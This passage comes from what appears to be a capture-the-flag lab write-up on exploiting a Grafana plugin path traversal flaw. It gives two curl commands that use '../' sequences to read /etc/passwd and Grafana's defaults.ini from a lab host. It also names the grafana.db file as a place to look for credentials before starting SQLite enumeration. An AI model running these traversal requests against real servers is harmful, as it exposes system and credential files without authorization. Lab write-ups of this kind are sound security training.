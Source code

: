 Reading further down the GitHub page, it states that Grafana uses a sqlite3 database stored under `/var/lib/grafana/grafana.db`. It also states you can dump Grafana configuration from `<grafana>/conf/defaults.ini`. 

{{< alert >}}
**Warning!** To download the binary database file, you must specify `--output [FILE]` or cURL will not work.
{{< /alert >}}


Downloading both results in success:

```bash
curl --path-as-is http://10.10.94.22:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
curl --path-as-is http://10.10.94.22:3000/public/plugins/alertlist/../../../../../conf/defaults.ini
```

![](Data-Files-Get.png)

Checking the default configuration file for anything juicy (creds, usernames, hashes, subdomains, etc..) results in nothing:

![](Data-Default-Ini.png)
## SQLite3 Enumeration

Opening the sqlite3 database and running the `.tables` command shows some interesting results:
